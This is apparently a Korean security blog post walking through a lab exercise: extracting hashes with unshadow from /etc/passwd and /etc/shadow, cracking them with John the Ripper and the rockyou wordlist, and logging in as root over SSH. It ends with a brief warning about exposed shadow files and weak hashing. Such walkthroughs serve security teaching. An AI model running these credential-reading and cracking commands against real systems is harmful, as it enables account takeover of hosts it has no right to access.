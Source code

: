```yaml
---
title: John The Ripper - Cracking /etc/shadow file
categories: [Offensive Security, Kali Linux]
tags: [Kali Linux Tools, John The Ripper, unshadow]
image:
  path: /assets/post/2025/Offensive Security/JohnTheRipper.png
  alt: [John The Ripper]
published: true
---
```


리눅스 시스템에서 /etc/shadow 파일은 사용자의 암호화된 패스워드와 패스워드 설정 정책이 작성된 파일입니다. 일반적으로는 관리자 계정과 그룹만이 이 파일을 읽을 수 있기 때문에 크게 문제가 될 일은 없습니다.
하지만 잘못된 권한 설정이나 취약점으로 인해 /etc/shadow 파일 내용 확인이 가능하다면 공격자는 암호화된 패스워드(해시)를 크래킹하여 사용자의 계정을 탈취할 수 있게 됩니다.

오늘은 /etc/shadow 파일이 노출된 경우에 암호화된 패스워드를 크래킹하여 대상 호스트의 쉘(권한)을 획득하는 방법에 대해 알아보겠습니다.

## 사전준비
익스플로잇을 진행하기 위해서는 `John The Ripper` 라는 해시 크래킹 도구가 필요합니다.

### 존 더 리퍼(JTR; John The Ripper) 다운로드

```
(Python code)
wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py

(executable binary)
sudo apt-get update
sudo apt-get install john
```

## Exploit
### 1. /etc/shadow 파일 내 암호 해시 추출
```
┌──(kali㉿kali)-[~/Desktop/bhpt/lab/observer]
└─$ unshadow
Usage: unshadow PASSWORD-FILE SHADOW-FILE

┌──(kali㉿kali)-[~/Desktop/bhpt/lab/observer]
└─$ sudo unshadow /etc/passwd /etc/shadow > hash_file
```

### 2. JTR을 활용한 암호 크래킹
```
┌──(kali㉿kali)-[~/Desktop/bhpt/lab/observer]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash_file

[ . . . ]

wearethebest          (root)     
1g 0:00:00:22 15.06% (ETA: 11:13:29) 0.04537g/s 107821p/s 107952c/s 107952C/s 1110034..1106happy
Use the "--show" option to display all of the cracked passwords reliably
Session aborted

┌──(kali㉿kali)-[~/Desktop/bhpt/lab/observer]
└─$ john --show miller_hash                                     
root:wearethebest:0:0:root:/root:/bin/bash

1 password hash cracked, 1 left
```

### 3. 탈취한 패스워드로 루트 계정에 SSH 접속 시도
```
┌──(kali㉿kali)-[~/Desktop/bhpt/lab/observer]
└─$ ssh root@172.31.203.246        
root@172.31.203.246's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.19.0-1025-aws x86_64)

[ . . . ] 

Last login: Thu Sep 14 05:07:19 2023 from 172.31.0.146
root@ip-172-31-203-246:~# whoami
```

`/etc/shadow` 파일 정보가 노출되고 취약한 패스워드 암호화 알고리즘(MD5)이 사용되고 있다면
위와 같이 공격자가 사용자의 계정 권한을 탈취할 수 있으므로 각별히 주의하는 것이 필요하겠습니다.

---

## Reference 
1. https://domdom.tistory.com/612
